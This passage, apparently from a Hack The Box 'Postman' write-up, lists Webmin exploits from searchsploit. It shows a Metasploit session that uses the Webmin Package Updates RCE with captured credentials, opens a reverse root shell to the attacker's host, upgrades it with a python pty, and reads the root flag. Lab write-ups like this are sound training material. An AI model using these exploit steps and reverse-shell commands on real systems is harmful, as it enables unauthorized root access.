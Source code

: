 Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure (Perl)       | exploits/multiple/remote/2017.pl
phpMyWebmin 1.0 - 'target' Remote File Inclusion                          | exploits/php/webapps/2462.txt
phpMyWebmin 1.0 - 'window.php' Remote File Inclusion                      | exploits/php/webapps/2451.txt
webmin 0.91 - Directory Traversal                                         | exploits/cgi/remote/21183.txt
-------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
{% endhighlight %}

For the Webmin 1.9.10, we have one vulnerability "<a href="https://www.exploit-db.com/exploits/46984">Webmin 1.910 - 'Package Updates' Remote Command Execution</a>".<br>
By using the previous username and password, we can get a root shell.<br>
Also, with the common python method, we can achieve an interactive full shell.
{% highlight shell %}
msf5 > use exploit/linux/http/webmin_packageup_rce 
msf5 exploit(linux/http/webmin_packageup_rce) > set username Matt
username => Matt
msf5 exploit(linux/http/webmin_packageup_rce) > set password computer2008
password => computer2008
msf5 exploit(linux/http/webmin_packageup_rce) > set rhosts 10.10.10.160
rhosts => 10.10.10.160
msf5 exploit(linux/http/webmin_packageup_rce) > set lhost 10.10.14.9
lhost => 10.10.14.9
msf5 exploit(linux/http/webmin_packageup_rce) > set ssl true
ssl => true
msf5 exploit(linux/http/webmin_packageup_rce) > run

[*] Started reverse TCP handler on 10.10.14.9:4444 
[+] Session cookie: 28319cb492d25d1493cbd8a83f732ca8
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.9:4444 -> 10.10.10.160:49658) at 2020-03-16 18:56:54 +0200
id

uid=0(root) gid=0(root) groups=0(root)
python -c "import pty;pty.spawn('/bin/bash')"
root@Postman:/usr/share/webmin/package-updates/# 
{% endhighlight %}

As always, root.txt is in the directory "/root".
{% highlight shell %}
root@Postman:~# pwd
pwd
/root

root@Postman:~# cat root.txt
cat root.txt
a257741c5bed8be7778c6ed95686ddce
root@Postman:~# 
{% endhighlight %}
